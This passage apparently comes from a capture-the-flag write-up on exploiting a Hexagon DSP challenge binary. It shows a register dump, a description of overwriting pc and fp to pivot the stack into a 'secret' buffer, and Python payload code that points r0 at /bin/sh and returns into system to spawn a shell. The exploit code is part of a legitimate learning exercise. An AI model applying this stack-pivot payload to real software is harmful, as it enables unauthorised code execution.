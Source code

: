 ```
      p3_0 = 0x0000ffff
        c5 = 0x00000000
        m0 = 0x00000000
        m1 = 0x00000000
       usr = 0x00056000
        pc = 0x6942000a
       ugp = 0x4093cea4
        gp = 0x00000000
       cs0 = 0x00000000
       cs1 = 0x00000000
  upcyclelo = 0x00000000
  upcyclehi = 0x00000000
  framelimit = 0x00000000
  framekey = 0x00000000
  pktcountlo = 0x00000000
  pktcounthi = 0x00000000
   pkt_cnt = 0x000634f4
  insn_cnt = 0x0006443c
   hvx_cnt = 0x00000000
       c23 = 0x00000000
       c24 = 0x00000000
       c25 = 0x00000000
       c26 = 0x00000000
       c27 = 0x00000000
       c28 = 0x00000000
       c29 = 0x00000000
  utimerlo = 0x00000000
  utimerhi = 0x00000000
```
Nice, so we can overwrite the `pc` (`r29`) and `fp` (`r30`) by simply interacting with our program. Also, you can see that the `framekey` register is set to zero, so we don't need to worry about a scrambled return address. Also, `framelimit` is also zeroed, which makes stack pivoting to lower addresses possible as well.

## My biggest secret: I like Stack pivots
Since my goal was to spawn a shell, I needed to at least control the instruction pointer and `r0`, which will contain the first and only argument. To set `r0`, I went for the last two instructions of `main`:
```
20538:	e0 fe 9e 97	979efee0 { 	r0 = memw(r30+#-0x24) } 
2053c:	1e c0 1e 96	961ec01e { 	dealloc_return } 
```
So by jumping back by one instruction, writing my wanted `r0`-value to the stack and setting `r30` correctly, I can load an arbitrary value into r0!

But this was sadly not enough to pwn the challenge, as setting the `fp` so that I can load a value into `r0` meant that the next return address would be loaded from `buf + 20`, out of reach for my overwrite. The solution was to set `fp` to an address inside our `secret`-buffer, leading to a stack pivot. This meant that I had to prepare the `secret` buffer beforehand:

```python
secret_buf_addr = 0x00040658
# Starting with a bit of offset from our buffer
stack_pivot_start = secret_buf_addr + 0x200 
# How much I'll have to write
secret_len = 1024
deepest_secret  = 0x200*b'0' 
deepest_secret += + p32(0)
# value for r0, location of /bin/sh
deepest_secret += p32(secret_buf_addr + 0x30) 
# Values that we don't care about
deepest_secret += 9*p32(0)
# Our return address
deepest_secret += p32(system_addr)
```